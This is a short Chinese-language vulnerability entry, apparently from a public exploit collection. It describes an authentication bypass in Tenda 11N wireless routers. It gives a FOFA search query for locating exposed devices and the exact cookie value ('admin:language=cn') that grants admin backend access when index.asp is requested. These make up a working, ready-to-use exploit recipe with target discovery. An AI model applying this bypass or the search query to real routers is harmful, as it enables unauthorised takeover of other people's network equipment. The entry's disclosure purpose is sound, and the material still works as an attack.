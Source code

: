 # Tenda 11N无线路由器 Cookie 越权访问漏洞

## 漏洞描述

Tenda 11N无线路由器由于只验证Cookie，导致任意用户伪造Cookie即可进入后台

## 漏洞影响

```
Tenda 11N无线路由器
```

## FOFA

```
app="TENDA-11N无线路由器"
```

## 漏洞复现

登录页面

![image-20220519180949727](./images/202205191809768.png)

添加Cookie, 访问 index.asp 进入后台

```
admin:language=cn
```

![image-20220519181248549](./images/202205191812628.png)